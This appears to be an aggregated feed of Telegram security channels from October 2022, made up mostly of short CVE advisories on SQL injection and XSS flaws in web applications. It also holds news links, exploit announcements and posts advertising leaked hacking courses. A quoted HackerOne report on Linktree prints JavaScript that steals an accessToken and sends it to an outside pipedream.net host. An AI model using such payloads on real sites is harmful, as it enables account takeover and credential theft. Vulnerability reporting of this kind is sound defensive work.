

# cibsecurity
`2022-10-31`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-42925

<blockquote>
‼ CVE-2022-42925 ‼

There is a vulnerability on Forma LMS version 3.1.0 and earlier that could allow an authenticated attacker (with the role of student) to privilege escalate in order to upload a Zip file through the plugin upload component. The exploitation of this vulnerability could lead to a remote code injection.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-31`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-41680

<blockquote>
‼ CVE-2022-41680 ‼

Forma LMS on its 3.1.0 version and earlier is vulnerable to a SQL injection vulnerability. The exploitation of this vulnerability could allow an authenticated attacker (with the role of student) to perform a SQL injection on the 'search[value] parameter in the appLms/ajax.server.php?r&#61;mycertificate/getMyCertificates' function in order to dump the entire database.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-31`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-40190

<blockquote>
‼ CVE-2022-40190 ‼

SAUTER Controls moduWeb firmware version 2.7.1 is vulnerable to reflective cross-site scripting (XSS). The web application does not adequately sanitize request strings of malicious JavaScript. An attacker utilizing XSS could then execute malicious code in users’ browsers and steal sensitive information, including user credentials.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-31`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-41681

<blockquote>
‼ CVE-2022-41681 ‼

There is a vulnerability on Forma LMS version 3.1.0 and earlier that could allow an authenticated attacker (with the role of student) to privilege escalate in order to upload a Zip file through the SCORM importer feature. The exploitation of this vulnerability could lead to a remote code injection.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-31`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-40290

<blockquote>
‼ CVE-2022-40290 ‼

The application was vulnerable to an unauthenticated Reflected Cross-Site Scripting (XSS) vulnerability in the barcode generation functionality, allowing attackers to generate an unsafe link that could compromise users.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-31`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-42924

<blockquote>
‼ CVE-2022-42924 ‼

Forma LMS on its 3.1.0 version and earlier is vulnerable to a SQL injection vulnerability. The exploitation of this vulnerability could allow an authenticated attacker (with the role of student) to perform a SQL injection on the 'dyn_filter' parameter in the 'appLms/ajax.adm_server.php?r&#61;widget/userselector/getusertabledata' function in order to dump the entire database.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-31`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-40294

<blockquote>
‼ CVE-2022-40294 ‼

The application was identified to have an CSV injection in data export functionality, allowing for malicious code to be embedded within export data and then triggered in exported data viewers.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-31`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-40287

<blockquote>
‼ CVE-2022-40287 ‼

The application was found to be vulnerable to an authenticated Stored Cross-Site Scripting (XSS) vulnerability in messaging functionality, leading to privilege escalation or a compromise of a targeted account.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-31`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-42923

<blockquote>
‼ CVE-2022-42923 ‼

Forma LMS on its 3.1.0 version and earlier is vulnerable to a SQL injection vulnerability. The exploitation of this vulnerability could allow an authenticated attacker (with the role of student) to perform a SQL injection on the 'id' parameter in the 'appCore/index.php?r&#61;adm/mediagallery/delete' function in order to dump the entire database or delete all contents from the 'core_user_file' table.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-31`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-40288

<blockquote>
‼ CVE-2022-40288 ‼

The application was vulnerable to an authenticated Stored Cross-Site Scripting (XSS) in the user profile data fields, which could be leveraged to escalate privileges within and compromise any account that views their user profile.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# aptreports
`2022-10-31`

<blockquote>
We have collected 73 malware-related papers from XSS.  

* All papers in Russian
* Link to paper present for credit to original author

Check it out here: https://www.vx-underground.org/russian.html&#35;xss-%D0%BA%D0%BE%D0%BB%D0%BB%D0%B5%D0%BA%D1%86%D0%B8%D1%8F
</blockquote>

---

# cibsecurity
`2022-10-31`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-3254

<blockquote>
‼ CVE-2022-3254 ‼

The WordPress Classifieds Plugin WordPress plugin before 4.3 does not properly sanitise and escape some parameters before using them in a SQL statement via an AJAX action available to unauthenticated users and when a specific premium module is active, leading to a SQL injection

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# defcon_news
`2022-10-31`

<blockquote>
Simple Cold Storage Management System 1.0 SQL Injection
http://exploit.kitploit.com/2022/10/simple-cold-storage-management-system.html
</blockquote>

<table><tr><td><b>→</b><a href="https://exploit.kitploit.com/2022/10/simple-cold-storage-management-system.html">
https://exploit.kitploit.com/2022/10/simple-cold-storage-management-system.html
</a>
<blockquote>
Exploit Collector is the ultimate collection of public exploits and exploitable vulnerabilities. Remote/Local Exploits, Shellcode and 0days.
</blockquote>
</td></tr></table>

---

# defcon_news
`2022-10-31`

<blockquote>
Simple Cold Storage Management System 1.0 SQL Injection
https://packetstormsecurity.com/files/169605/simplecoldsms10-sql.txt
</blockquote>

<table><tr><td><b>→</b><a href="https://packetstormsecurity.com/files/169605/simplecoldsms10-sql.txt">
https://packetstormsecurity.com/files/169605/simplecoldsms10-sql.txt
</a>
<blockquote>
Information Security Services, News, Files, Tools, Exploits, Advisories and Whitepapers
</blockquote>
</td></tr></table>

---

# defcon_news
`2022-10-31`

<blockquote>
Google Addressed Another Chrome Zero Day Bug Under Attack
https://latesthackingnews.com/2022/10/31/google-addressed-another-chrome-zero-day-bug-under-attack/
</blockquote>

<table><tr><td><b>→</b><a href="https://latesthackingnews.com/2022/10/31/google-addressed-another-chrome-zero-day-bug-under-attack/">
https://latesthackingnews.com/2022/10/31/google-addressed-another-chrome-zero-day-bug-under-attack/
</a>
<blockquote>
Heads up, Chrome users! It’s time to update the Chrome browser on your devices, as Google released a security fix for a zero-day bug. Since the tech giant confirmed the vulnerability to be under attack,
</blockquote>
</td></tr></table>

---

# cibsecurity
`2022-10-31`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-3765

<blockquote>
‼ CVE-2022-3765 ‼

Cross-site Scripting (XSS) - Stored in GitHub repository thorsten/phpmyfaq prior to 3.1.8.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-31`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-3766

<blockquote>
‼ CVE-2022-3766 ‼

Cross-site Scripting (XSS) - Reflected in GitHub repository thorsten/phpmyfaq prior to 3.1.8.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# defcon_news
`2022-10-31`

<blockquote>
Linktree: XSS in SocialIcon Link
https://vulners.com/hackerone/H1:1698652?utm_source&#61;rss&amp;utm_medium&#61;rss&amp;utm_campaign&#61;rss
</blockquote>

<table><tr><td><b>→</b><a href="https://vulners.com/hackerone/H1:1698652?utm_source=rss&utm_medium=rss&utm_campaign=rss">
https://vulners.com/hackerone/H1:1698652?utm_source=rss&utm_medium=rss&utm_campaign=rss
</a>
<blockquote>
XSS in SocialIcon Link There was no validation of the url provided for the SocialIcon Link , which allowed to include javascript uri . As the cookies were marked as httponly , I couldn't steal them directly via the xss so instead I found an endpoint which was leaking the accessToken used for authentication. js await fetch(&quot;https://linktr.ee/api/token&quot;, {     &quot;credentials&quot;: &quot;include&quot;,     &quot;method&quot;: &quot;GET&quot; }) .then((response) &#61;&gt; response.json()) .then((responseJson) &#61;&gt; {     fetch(&quot;https://en2celr7rewbul.m.pipedream.net/?token&#61;&quot;+responseJson[&quot;accessToken&quot;]); }) Final POC: js javascript://https://amazon.com/shop/x%0Aeval(\&quot;(async()&#61;&gt;{await+fetch('https://linktr.ee/api/token').then((response)&#61;&gt;response.json()).then((responseJson)&#61;&gt;{alert(responseJson['accessToken']);})})()\&quot;) POC in action:...
</blockquote>
</td></tr></table>

---

# sysadm_in_channel
`2022-10-31`

<blockquote>
/ Technical Analysis of Windows CLFS Zero-Day Vulnerability CVE-2022-37969 - Part 2: Exploit Analysis

https://www.zscaler.com/blogs/security-research/technical-analysis-windows-clfs-zero-day-vulnerability-cve-2022-37969-part2-exploit-analysis

P.S. Thx @novitoll for the link ✌️
</blockquote>

<table><tr><td><b>→</b><a href="https://www.zscaler.com/blogs/security-research/technical-analysis-windows-clfs-zero-day-vulnerability-cve-2022-37969-part2-exploit-analysis">
https://www.zscaler.com/blogs/security-research/technical-analysis-windows-clfs-zero-day-vulnerability-cve-2022-37969-part2-exploit-analysis
</a>
<blockquote>
Technical Analysis of Windows CLFS Zero-Day Vulnerability CVE-2022-37969 - Part 2: Exploit Analysis
</blockquote>
</td></tr></table>

---

# Leakers_squad
`2022-10-31`

* https://t.me/leakers_Squad/1841

<blockquote>
🎭 Ethical Hacking Complete Course 🎭
BY @TheStarkArmyX

What will you learn in this course :

🔺Introduction To Footprinting
🔺Get Information From Website Name
🔺How To Collect Information Using E-mail
🔺Information Collection Using Network
🔺How To Disable Httrack &amp; Web Mirroring
🔺Completely Hide Your Personl Details From Internet
🔺Practical Of Ip Address And Local Host
🔺Introduction To Ip Addres
🔺How To Use Tor Browser
🔺How To Use Multiple Proxies
🔺How To Use Free Proxy Server
🔺Live Network, Port And Ip Scanning
🔺Vulnerability Scanning Explained
🔺Mask Your Banner To Confuse Hackers
🔺Close Open Ports And Secure Your Data
🔺Web Enumeration Explained
🔺System Hacking Explained
🔺How To Work In Computer Without Login
🔺How To Recover Windows Password
🔺What Is Virus, Malware And Worms Explained
🔺Virus Maker Explained
🔺What Is Sniffing Explained
🔺What Is Man In The Middle Attack Explained
🔺Penetst Sniffing
🔺What Is Spoofing Explained
🔺What Is Social Engineering
🔺What Is Phishing Explained
🔺What Is Dos &amp; Ddos Attack Explaind
🔺What Is Cookie Stealing Demo
🔺Sidejacking Explained With Practical
🔺Session Hijacking Explained With Practical
🔺Cross Site Scripting Attack Explained
🔺What Is Sql Injetion Explained
🔺Live Sql Vulnerability Testing
🔺Best Way To Be Safe From Sql Injection
🔺How To Catch Hackers Using Fake Info
🔺What Is Steganography
🔺Image &amp; Text Steganography Practical
🔺Video &amp; Audio Steganography Practical
🔺Pentesting With Formula Injection
🔺Path Traversal Attack Detection &amp; Prevention
🔺Web Hacking Using Repeater
🔺Web Application Pentesting Bypass Website Info
🔺Sensitive Infromation Stored In Target Tab Burp Suit
🔺Scan Vulnerabilities In A Web Application
🔺What Is Cryptography
🔺How To Encrypt Or Decrypt Messages
🔺Chat Anonymously With Anyone

And Allots of more things except above.....

🔗Download LINK:- https://bit.ly/3UcAjM4

Contact for posting these content in your channel @Mr_Neophyte

♻️Share And Support us ♻️

If you want to report any copyright violation, please write to us at  @Leakers_squad_bot and we will ensure to remove that post within 48 hours
Read this
</blockquote>

<table><tr><td><b>→</b><a href="https://bit.ly/3UcAjM4">
https://bit.ly/3UcAjM4
</a>
<blockquote>
What will you learn in this course :
</blockquote>
</td></tr></table>

---

# cibsecurity
`2022-10-28`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-43233

<blockquote>
‼ CVE-2022-43233 (canteen_management_system) ‼

Canteen Management System v1.0 was discovered to contain a SQL injection vulnerability via the userid parameter at /php_action/fetchSelectedUser.php.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-28`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-43228

<blockquote>
‼ CVE-2022-43228 (barangay_management_system) ‼

Barangay Management System v1.0 was discovered to contain a SQL injection vulnerability via the hidden_id parameter at /clearance/clearance.php.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-28`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-43232

<blockquote>
‼ CVE-2022-43232 (canteen_management_system) ‼

Canteen Management System v1.0 was discovered to contain a SQL injection vulnerability via the userid parameter at /php_action/fetchOrderData.php.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-28`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-3708

<blockquote>
‼ CVE-2022-3708 ‼

The Web Stories plugin for WordPress is vulnerable to Server-Side Request Forgery in versions up to, and including 1.24.0 due to insufficient validation of URLs supplied via the 'url' parameter found via the /v1/hotlink/proxy REST API Endpoint. This made it possible for authenticated users to make web requests to arbitrary locations originating from the web application and can be used to query and modify information from internal services.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-28`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2021-36898

<blockquote>
‼ CVE-2021-36898 ‼

Auth. SQL Injection (SQLi) vulnerability in Quiz And Survey Master plugin &lt;&#61; 7.3.4 on WordPress.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-28`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-43230

<blockquote>
‼ CVE-2022-43230 (simple_cold_storage_managment_system) ‼

Simple Cold Storage Management System v1.0 was discovered to contain a SQL injection vulnerability via the id parameter at /admin/?page&#61;bookings/view_details.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-28`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2021-36864

<blockquote>
‼ CVE-2021-36864 ‼

Auth. (editor+) Reflected Cross-Site Scripting (XSS) vulnerability in ExpressTech Quiz And Survey Master plugin &lt;&#61; 7.3.4 on WordPress.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-28`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-43229

<blockquote>
‼ CVE-2022-43229 (simple_cold_storage_managment_system) ‼

Simple Cold Storage Management System v1.0 was discovered to contain a SQL injection vulnerability via the id parameter at /bookings/update_status.php.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# defcon_news
`2022-10-28`

<blockquote>
Urgent: Google Issues Emergency Patch for Chrome Zero-Day
https://www.darkreading.com/vulnerabilities-threats/urgent-google-issues-emergency-patch-chrome-zero-day
</blockquote>

<table><tr><td><b>→</b><a href="https://www.darkreading.com/vulnerabilities-threats/urgent-google-issues-emergency-patch-chrome-zero-day">
https://www.darkreading.com/vulnerabilities-threats/urgent-google-issues-emergency-patch-chrome-zero-day
</a>
<blockquote>
With scant details attached, Google Chrome seeks to shore up yet another exploited zero-day vulnerability.
</blockquote>
</td></tr></table>

---

# freedomf0x
`2022-10-28`

* https://github.com/sourceincite/DashOverride
* https://srcincite.io/advisories/src-2022-0015/
* https://srcincite.io/advisories/src-2022-0016/
* https://srcincite.io/advisories/src-2022-0017/
* https://www.vmware.com/security/advisories/VMSA-2022-0022.html
* https://srcincite.io/blog/2022/08/09/from-shared-dash-to-root-bash-pre-authenticated-rce-in-vmware-vrealize-operations-manager.html

<blockquote>
💥DashOverride is a pre-authenticated RCE exploit for VMware vRealize Operations Manager (vROPS) that impacts versions &lt;&#61; 8.6.3.19682901(CVE-2022-31675, CVE-2022-31674, CVE-2022-31672 ).

usage: ./poc.py &lt;target&gt; &lt;connectback&gt; &lt;dashboardlink_token&gt;

This exploit will require the attacker to supply:
💾A valid dashboardlink token that will be used to bypass authentication.
💾Their own SMTP server settings, this is to ensure that exploitation works.
💾A valid Pak file that is signed by VMWare such as APUAT-8.5.0.18176777.pak.

🛡security patch

📑blog post
</blockquote>

---

# cibsecurity
`2022-10-28`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2021-36858

<blockquote>
‼ CVE-2021-36858 ‼

Auth. (admin+) Stored Cross-Site Scripting (XSS) vulnerability in Themepoints Testimonials plugin &lt;&#61; 2.6 on WordPress.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-28`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2021-38728

<blockquote>
‼ CVE-2021-38728 ‼

SEMCMS SHOP v 1.1 is vulnerable to Cross Site Scripting (XSS) via Ant_M_Coup.php.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-28`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2021-38733

<blockquote>
‼ CVE-2021-38733 ‼

SEMCMS SHOP v 1.1 is vulnerable to SQL Injection via Ant_BlogCat.php.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-28`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2021-38729

<blockquote>
‼ CVE-2021-38729 ‼

SEMCMS SHOP v 1.1 is vulnerable to SQL Injection via Ant_Plist.php.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-28`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-43164

<blockquote>
‼ CVE-2022-43164 ‼

A stored cross-site scripting (XSS) vulnerability in the Global Lists feature (/index.php?module&#61;global_lists/lists) of Rukovoditel v3.2.1 allows authenticated attackers to execute arbitrary web scripts or HTML via a crafted payload injected into the Name parameter after clicking &quot;Add&quot;.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-28`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-43167

<blockquote>
‼ CVE-2022-43167 ‼

A stored cross-site scripting (XSS) vulnerability in the Users Alerts feature (/index.php?module&#61;users_alerts/users_alerts) of Rukovoditel v3.2.1 allows authenticated attackers to execute arbitrary web scripts or HTML via a crafted payload injected into the Title parameter after clicking &quot;Add&quot;.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-28`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2021-38217

<blockquote>
‼ CVE-2021-38217 ‼

SEMCMS v 1.2 is vulnerable to SQL Injection via SEMCMS_User.php.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-28`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-43165

<blockquote>
‼ CVE-2022-43165 ‼

A stored cross-site scripting (XSS) vulnerability in the Global Variables feature (/index.php?module&#61;global_vars/vars) of Rukovoditel v3.2.1 allows authenticated attackers to execute arbitrary web scripts or HTML via a crafted payload injected into the Value parameter after clicking &quot;Create&quot;.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-28`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-43168

<blockquote>
‼ CVE-2022-43168 ‼

Rukovoditel v3.2.1 was discovered to contain a SQL injection vulnerability via the reports_id parameter.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-28`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2021-38731

<blockquote>
‼ CVE-2021-38731 ‼

SEMCMS SHOP v 1.1 is vulnerable to SQL Injection via Ant_Zekou.php.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-28`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2021-36863

<blockquote>
‼ CVE-2021-36863 ‼

Auth. (contributor+) Stored Cross-Site Scripting (XSS) vulnerability in ExpressTech Quiz And Survey Master plugin &lt;&#61; 7.3.4 on WordPress.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-28`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-43166

<blockquote>
‼ CVE-2022-43166 ‼

A stored cross-site scripting (XSS) vulnerability in the Global Entities feature (/index.php?module&#61;entities/entities) of Rukovoditel v3.2.1 allows authenticated attackers to execute arbitrary web scripts or HTML via a crafted payload injected into the Name parameter after clicking &quot;Add New Entity&quot;.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-28`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-43170

<blockquote>
‼ CVE-2022-43170 ‼

A stored cross-site scripting (XSS) vulnerability in the Dashboard Configuration feature (index.php?module&#61;dashboard_configure/index) of Rukovoditel v3.2.1 allows authenticated attackers to execute arbitrary web scripts or HTML via a crafted payload injected into the Title parameter after clicking &quot;Add info block&quot;.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-28`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2021-38730

<blockquote>
‼ CVE-2021-38730 ‼

SEMCMS SHOP v 1.1 is vulnerable to SQL Injection via Ant_Info.php.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# defcon_news
`2022-10-28`

<blockquote>
A vulnerability in the Galaxy Store allows attackers through an XSS to cause the store to install and/or launch an application, allowing remote attackers to trigger a remote command execution in the phone.
https://www.reddit.com/r/netsec/comments/yerzww/a_vulnerability_in_the_galaxy_store_allows/
</blockquote>

<table><tr><td><b>→</b><a href="https://www.reddit.com/r/netsec/comments/yerzww/a_vulnerability_in_the_galaxy_store_allows/">
https://www.reddit.com/r/netsec/comments/yerzww/a_vulnerability_in_the_galaxy_store_allows/
</a>
<blockquote>
Posted in r/netsec by u/SSDisclosure • 1 point and 0 comments
</blockquote>
</td></tr></table>

---

# cibsecurity
`2022-10-28`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2021-38734

<blockquote>
‼ CVE-2021-38734 ‼

SEMCMS SHOP v 1.1 is vulnerable to SQL Injection via Ant_Menu.php.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-28`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2021-35387

<blockquote>
‼ CVE-2021-35387 ‼

Hospital Management System v 4.0 is vulnerable to SQL Injection via file:hospital/hms/admin/view-patient.php.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-28`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2021-38736

<blockquote>
‼ CVE-2021-38736 ‼

SEMCMS Shop V 1.1 is vulnerable to SQL Injection via Ant_Global.php.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-28`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2021-37782

<blockquote>
‼ CVE-2021-37782 ‼

Employee Record Management System v 1.2 is vulnerable to SQL Injection via editempprofile.php.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-28`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-43276

<blockquote>
‼ CVE-2022-43276 ‼

Canteen Management System v1.0 was discovered to contain a SQL injection vulnerability via the productId parameter at /php_action/fetchSelectedfood.php.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-28`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2021-37781

<blockquote>
‼ CVE-2021-37781 ‼

Employee Record Management System v 1.2 is vulnerable to Cross Site Scripting (XSS) via editempprofile.php.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-28`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2021-35388

<blockquote>
‼ CVE-2021-35388 ‼

Hospital Management System v 4.0 is vulnerable to Cross Site Scripting (XSS) via /hospital/hms/admin/patient-search.php.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-28`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2021-38737

<blockquote>
‼ CVE-2021-38737 ‼

SEMCMS v 1.1 is vulnerable to SQL Injection via Ant_Pro.php.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# Leakers_squad
`2022-10-28`

* https://t.me/leakers_Squad/1841

<blockquote>
🎭 Bundle of Hacking Courses 🎭

Ethical Hacking Core Training 2022
Reconnaissance and Footprinting
Network Scanning
Enumeration
Firewalls HIDs Honeypot
Malware and Threats
Mobile Platform
Pentesting
Sql Injection
System Hacking
Web Server
Wireless Network
Cloud Computing
Web Application
Social Engineering
Session Hijacking
Sniffing
BufferOverflow
Cryptography
Denial Of Service

🔘uploaded on mega

🔗Download LINK:- https://bit.ly/3feMHfG

Contact for posting these content in your channel @Mr_Neophyte

♻️Share And Support us ♻️

If you want to report any copyright violation, please write to us at  @Leakers_squad_bot and we will ensure to remove that post within 48 hours
Read this
</blockquote>

---

# cibsecurity
`2022-10-28`

* https://portswigger.net/daily-swig/vmware-patches-rce-exploit-in-nsx-manager

<blockquote>
🗓️ VMWare patches RCE exploit in NSX Manager 🗓️

Bug fixed despite product reaching end of life

📖 Read

via &quot;The Daily Swig&quot;.
</blockquote>

<table><tr><td><b>→</b><a href="https://portswigger.net/daily-swig/vmware-patches-rce-exploit-in-nsx-manager">
https://portswigger.net/daily-swig/vmware-patches-rce-exploit-in-nsx-manager
</a>
<blockquote>
Bug fixed despite product reaching end of life
</blockquote>
</td></tr></table>

---

# defcon_news
`2022-10-28`

<blockquote>
Google Issues Urgent Chrome Update to Patch Actively Exploited Zero-Day Vulnerability
https://thehackernews.com/2022/10/google-issues-urgent-chrome-update-to.html
</blockquote>

---

# cibsecurity
`2022-10-28`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-31678

<blockquote>
‼ CVE-2022-31678 ‼

VMware Cloud Foundation (NSX-V) contains an XML External Entity (XXE) vulnerability. On VCF 3.x instances with NSX-V deployed, this may allow a user to exploit this issue leading to a denial-of-service condition or unintended information disclosure.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-27`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-0073

<blockquote>
‼ CVE-2022-0073 ‼

Improper Input Validation vulnerability in LiteSpeed Technologies OpenLiteSpeed Web Server Dashboard allows Command Injection. This affects 1.7.0 versions before 1.7.16.1.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-27`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-40967

<blockquote>
‼ CVE-2022-40967 ‼

The affected product DIAEnergie (versions prior to v1.9.01.002) is vulnerable to a SQL injection that exists in CheckIoTHubNameExisted. A low-privileged authenticated attacker could exploit this issue to inject arbitrary SQL queries.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-27`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-39976

<blockquote>
‼ CVE-2022-39976 ‼

School Activity Updates with SMS Notification v1.0 was discovered to contain a SQL injection vulnerability via the id parameter at /modules/announcement/index.php?view&#61;edit&amp;id&#61;.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-27`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2022-41133

<blockquote>
‼ CVE-2022-41133 ‼

The affected product DIAEnergie (versions prior to v1.9.01.002) is vulnerable to a SQL injection that exists in GetDIAE_line_message_settingsListParameters. A low-privileged authenticated attacker could exploit this issue to inject arbitrary SQL queries.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2022-10-27`

